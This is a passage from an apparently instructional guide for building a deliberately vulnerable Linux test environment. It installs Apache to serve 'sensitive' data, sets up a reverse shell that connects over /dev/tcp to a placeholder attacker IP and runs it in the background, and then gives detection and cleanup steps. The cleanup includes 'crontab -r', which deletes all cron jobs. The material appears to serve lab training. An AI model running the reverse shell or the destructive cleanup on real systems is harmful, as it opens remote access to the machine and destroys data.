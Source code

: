 #### **4.2 Install and Expose a Web Server**
1. **Install a Web Server**:
   ```bash
   sudo apt update && sudo apt install apache2 -y
   ```
   - **Description**: Installs Apache.

2. **Host Sensitive Information**:
   ```bash
   echo "Sensitive data exposed" | sudo tee /var/www/html/index.html
   sudo systemctl start apache2
   ```
   - **Description**: Hosts a webpage containing sensitive data.

#### **4.3 Create a Reverse Shell**
1. **Set up a Reverse Shell**:
   ```bash
   echo "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1" > /tmp/reverse_shell.sh
   chmod +x /tmp/reverse_shell.sh
   nohup /tmp/reverse_shell.sh &
   ```
   - **Description**: Creates and executes a reverse shell connecting to `<ATTACKER_IP>` on port `4444`.

---

### **5. Post-Vulnerability Testing**

#### **Analyze Vulnerabilities**:
1. **Weak Permissions**:
   ```bash
   find / -perm 777 2>/dev/null
   ```
   - **Description**: Locates world-writable files.

2. **Reverse Shell Detection**:
   ```bash
   netstat -tunlp | grep 4444
   ```
   - **Description**: Identifies connections to port `4444`.

3. **Log Analysis**:
   ```bash
   sudo tail -f /var/log/apache2/access.log
   ```
   - **Description**: Monitors access logs for the web server.

---

### **6. Cleanup**
- **Remove Vulnerabilities**:
  ```bash
  sudo rm /etc/weak_config.conf
  sudo systemctl stop apache2
  crontab -r
  pkill -f reverse_shell.sh
  ```
  - **Description**: Cleans up created vulnerabilities.

